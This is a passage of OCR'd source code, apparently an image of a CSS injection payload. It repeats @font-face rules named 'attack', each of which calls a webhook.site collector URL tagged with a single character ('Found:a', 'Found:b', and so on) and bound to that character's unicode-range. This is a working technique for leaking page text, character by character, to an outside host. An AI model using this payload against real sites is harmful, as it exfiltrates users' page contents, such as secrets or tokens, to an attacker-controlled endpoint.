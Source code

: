            unicode-range:U+005A;

}

 

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:a');

           unicode-range:U+0061;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:b');

           unicode-range:U+0062;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:c');

           unicode-range:U+0063;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:d');

           unicode-range:U+0064;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:e');

           unicode-range:U+0065;

}

@font-face{

           font-family:attack;
